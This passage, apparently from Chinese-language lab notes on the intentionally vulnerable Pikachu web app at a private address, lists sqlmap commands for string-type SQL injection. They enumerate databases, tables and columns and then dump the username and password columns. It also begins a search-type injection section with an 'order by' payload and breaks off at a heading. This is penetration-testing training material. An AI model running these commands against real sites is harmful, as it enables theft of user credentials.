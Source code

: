 ```
python sqlmap.py -u "http://192.168.10.129/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" --cookie="PHPSESSID=fbtqpmo4usbar76febqv2m3fug" 
```



爆破库名：

```
python sqlmap.py -u "http://192.168.10.129/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" --cookie="PHPSESSID=fbtqpmo4usbar76febqv2m3fug" --dbs
```



爆破表名：

```
python sqlmap.py -u "http://192.168.10.129/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" --cookie="PHPSESSID=fbtqpmo4usbar76febqv2m3fug" -D pikachu --tables
```



爆破列名：

```
python sqlmap.py -u "http://192.168.10.129/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" --cookie="PHPSESSID=fbtqpmo4usbar76febqv2m3fug" -D pikachu -T users --columns
```



爆破字段信息：

```
python sqlmap.py -u "http://192.168.10.129/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" --cookie="PHPSESSID=fbtqpmo4usbar76febqv2m3fug" -D pikachu -T users -C "username,password" --dump
```



### 搜索型注入

闭合符号为`%'`

![image-20250123073617179](../../_media/image-20250123073617179.png)

判断列数：

```
1%' order by 3#
```

爆破库名：
